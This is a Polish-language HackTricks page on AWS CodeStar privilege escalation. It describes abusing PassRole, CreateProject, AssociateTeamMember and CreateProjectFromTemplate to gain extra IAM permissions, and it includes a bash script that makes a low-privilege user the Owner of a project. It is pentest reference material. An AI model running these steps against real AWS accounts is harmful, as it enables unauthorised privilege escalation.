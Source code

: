 # AWS - Codestar Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Codestar

Możesz znaleźć więcej informacji o codestar w:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `iam:PassRole`, `codestar:CreateProject`

Dzięki tym uprawnieniom możesz **nadużyć roli IAM codestar**, aby wykonać **dowolne działania** za pomocą **szablonu cloudformation**. Sprawdź następującą stronę:

{% content-ref url="iam-passrole-codestar-createproject.md" %}
[iam-passrole-codestar-createproject.md](iam-passrole-codestar-createproject.md)
{% endcontent-ref %}

### `codestar:CreateProject`, `codestar:AssociateTeamMember`

Ta technika wykorzystuje `codestar:CreateProject`, aby stworzyć projekt codestar, oraz `codestar:AssociateTeamMember`, aby uczynić użytkownika IAM **właścicielem** nowego projektu CodeStar, co przyzna im **nową politykę z kilkoma dodatkowymi uprawnieniami**.
```bash
PROJECT_NAME="supercodestar"

aws --profile "$NON_PRIV_PROFILE_USER" codestar create-project \
--name $PROJECT_NAME \
--id $PROJECT_NAME

echo "Waiting 1min to start the project"
sleep 60

USER_ARN=$(aws --profile "$NON_PRIV_PROFILE_USER" opsworks describe-my-user-profile | jq .UserProfile.IamUserArn | tr -d '"')

aws --profile "$NON_PRIV_PROFILE_USER" codestar associate-team-member \
--project-id $PROJECT_NAME \
--user-arn "$USER_ARN" \
--project-role "Owner" \
--remote-access-allowed
```
Jeśli jesteś już **członkiem projektu**, możesz użyć uprawnienia **`codestar:UpdateTeamMember`** do **aktualizacji swojej roli** na właściciela zamiast `codestar:AssociateTeamMember`.

**Potencjalny wpływ:** Privesc do polityki codestar. Możesz znaleźć przykład tej polityki w:

{% content-ref url="codestar-createproject-codestar-associateteammember.md" %}
[codestar-createproject-codestar-associateteammember.md](codestar-createproject-codestar-associateteammember.md)
{% endcontent-ref %}

### `codestar:CreateProjectFromTemplate`

1. **Utwórz nowy projekt:**
* Wykorzystaj akcję **`codestar:CreateProjectFromTemplate`**, aby rozpocząć tworzenie nowego projektu.
* Po pomyślnym utworzeniu, dostęp jest automatycznie przyznawany dla **`cloudformation:UpdateStack`**.
* Ten dostęp dotyczy konkretnej stosu powiązanej z rolą IAM `CodeStarWorker-<nazwa ogólna projektu>-CloudFormation`.
2. **Zaktualizuj docelowy stos:**
* Z przyznanymi uprawnieniami CloudFormation, przystąp do aktualizacji określonego stosu.
* Nazwa stosu zazwyczaj będzie odpowiadać jednemu z dwóch wzorców:
* `awscodestar-<nazwa ogólna projektu>-infrastructure`
* `awscodestar-<nazwa ogólna projektu>-lambda`
* Dokładna nazwa zależy od wybranego szablonu (odwołując się do przykładowego skryptu exploit).
3. **Dostęp i uprawnienia:**
* Po aktualizacji uzyskujesz możliwości przypisane do **roli IAM CloudFormation** powiązanej z tym stosem.
* Uwaga: To nie zapewnia z definicji pełnych uprawnień administratora. Dodatkowe źle skonfigurowane zasoby w środowisku mogą być wymagane do dalszego podniesienia uprawnień.

Aby uzyskać więcej informacji, sprawdź oryginalne badania: [https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/](https://rhinosecuritylabs.com/aws/escalating-aws-iam-privileges-undocumented-codestar-api/).\
Możesz znaleźć exploit w [https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar\_createprojectfromtemplate\_privesc/CodeStarPrivEsc.py](https://github.com/RhinoSecurityLabs/Cloud-Security-Research/blob/master/AWS/codestar_createprojectfromtemplate_privesc/CodeStarPrivEsc.py)

**Potencjalny wpływ:** Privesc do roli IAM cloudformation.

{% hint style="success" %}
Ucz się i ćwicz hacking AWS:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Ucz się i ćwicz hacking GCP: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
